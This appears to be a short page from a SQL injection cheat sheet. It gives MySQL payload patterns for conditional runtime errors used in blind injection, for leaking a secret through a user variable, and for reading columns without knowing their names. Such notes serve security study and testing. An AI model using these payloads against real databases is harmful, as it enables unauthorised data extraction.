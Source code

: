 ## Generating Runtime Error

    select 1=if(CONDITION, 1, (select 1 union 2))
---
    select 1=(select CONDITION union select 1)

    # if condition is true : len(row) = 1
    # if condition is false: len(row) = 2 -- error

## Column name related

#### Leaking

1. Variable


    select * from table where @a:=<Secret> union select @a;

2. information_schema / inno_db

[Leaking_Table_Name](./Leaking_Table_Name.md)

#### Without Leaking

1. Using alias(as)


    select a from table where (select 1 as a union select * from table) as b limit 1,1
